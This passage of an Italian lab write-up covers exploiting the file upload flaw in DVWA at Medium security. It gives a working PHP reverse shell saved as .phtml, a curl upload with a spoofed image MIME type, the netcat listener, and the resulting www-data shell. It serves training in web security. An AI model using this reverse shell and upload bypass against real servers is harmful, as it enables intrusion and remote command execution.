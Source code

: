 #### Successful Bypass - .phtml Extension

**Breakthrough Discovery**:
Durante la fase di testing sistematico delle estensioni alternative, `.phtml` è risultata non essere nella blacklist di DVWA Medium.

**Final Payload Creation**:
```bash
# Creazione payload ottimizzato
cat > shell.phtml << 'EOF'
<?php
$ip = '192.168.1.50';
$port = 4444;
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh', array(
    0 => $sock, 
    1 => $sock, 
    2 => $sock
), $pipes);
?>
EOF
```

**Upload con MIME Spoofing**:
```bash
curl -v \
-b "PHPSESSID=abc123def456ghi789" \
-F "uploaded=@shell.phtml;type=image/png" \
-F "Upload=Upload" \
http://192.168.1.100/DVWA/vulnerabilities/upload/
```

**Success Confirmation**:
```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8

./../hackable/uploads/shell.phtml successfully uploaded!
```

#### Shell Activation e Post-Exploitation

**Listener Setup**:
```bash
nc -lnvp 4444
listening on [any] 4444 ...
```

**Trigger via Browser**:
```
http://192.168.1.100/DVWA/hackable/uploads/shell.phtml
```

**Shell Obtained**:
```bash
connect to [192.168.1.50] from (UNKNOWN) [192.168.1.100] 42156
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ hostname
serverubuntu
```
